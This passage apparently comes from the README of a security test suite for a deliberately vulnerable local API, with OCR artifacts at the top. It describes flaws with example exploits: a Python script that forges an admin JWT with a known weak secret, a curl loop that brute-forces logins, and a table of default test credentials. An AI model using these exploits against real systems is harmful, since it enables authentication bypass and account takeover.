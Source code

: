 **Impact**: Complete authentication bypass - can forge tokens for any user including admin.

**Example Exploit**:
```python
import jwt
import datetime

# Forge admin token
payload = {
    "exp": datetime.datetime.utcnow() + datetime.timedelta(seconds=300),
    "iat": datetime.datetime.utcnow(),
    "sub": "admin"
}
token = jwt.encode(payload, "random", algorithm="HS256")
# Use this token to access API as admin!
```

---

### test_09_no_rate_limiting.py - No Rate Limiting

**Vulnerability**: No rate limiting on any endpoint

**Tests**:
- Unlimited login attempts (brute-force)
- Unlimited registration (spam)
- Unlimited API requests (scraping)
- Concurrent request handling

**Impact**: Enables brute-force attacks, user enumeration, data scraping, and denial of service.

**Example Exploit**:
```bash
# Brute-force 1000 passwords in seconds
for i in {1..1000}; do
  curl -X POST http://localhost:5000/users/v1/login \
    -d "{\"username\":\"admin\",\"password\":\"pass$i\"}"
done
```

## Test Credentials

Default credentials created by bootstrap:

| Username | Password | Admin | Usage |
|----------|----------|-------|-------|
| `admin` | `pass1` | Yes | Admin user tests |
| `name1` | `pass1` | No | Primary test user (user1) |
| `name2` | `pass2` | No | Secondary test user (user2) |
| 50+ generated | Various | 10% admin | Bootstrap data |

## Expected Results
